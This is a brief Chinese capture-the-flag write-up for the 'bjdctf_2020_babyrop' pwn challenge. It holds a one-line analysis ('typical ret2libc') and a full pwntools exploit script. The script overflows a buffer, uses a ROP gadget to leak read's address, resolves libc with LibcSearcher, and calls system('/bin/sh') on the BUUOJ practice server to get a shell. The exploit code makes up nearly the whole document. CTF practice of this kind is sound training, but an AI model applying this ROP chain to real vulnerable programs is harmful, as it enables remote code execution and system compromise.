 ```yaml
---
title: "bjdctf_2020_babyrop"
description: ""
date: 2023-04-07T13:46:30+08:00
lastmod: 2023-04-07T13:46:30+08:00
draft: false
images: []
type: docs
weight: 982
toc: true
---
```


## 0x01 分析

![18e7be6fc03d5a816cb5c7a431fdefe8](images/18e7be6fc03d5a816cb5c7a431fdefe8.png)  

典型的ret2libc

## 0x02 Exploit

```python
from pwn import*
from LibcSearcher import*
# context.log_level = 'debug'
# o = process("./pwn")
o = remote("node4.buuoj.cn", 29543)
elf = ELF("./pwn")

puts_plt = elf.plt['puts']
read_got = elf.got['read']
vuln = elf.sym['vuln']
pop_rdi = 0x0000000000400733
o.recvuntil(b'story!\n')
payload = b'a'*40 + p64(pop_rdi) + p64(read_got) + p64(puts_plt) + p64(vuln)
o.sendline(payload)
read_addr = u64(o.recv(6) + b"\x00\x00")
libc = LibcSearcher("read", read_addr)
libc_base = read_addr - libc.dump("read")
log.info(hex(libc_base))
sys_addr = libc_base + libc.dump("system")
bin_sh = libc_base + libc.dump("str_bin_sh")

# attack
o.recvuntil(b'story!\n')
payload = b'a'*40 + p64(pop_rdi) + p64(bin_sh) + p64(sys_addr) + p64(vuln)
o.sendline(payload)
o.interactive()

```

![529dec017a4eb417633fbc942c5b885b](images/529dec017a4eb417633fbc942c5b885b.png)

自行调试
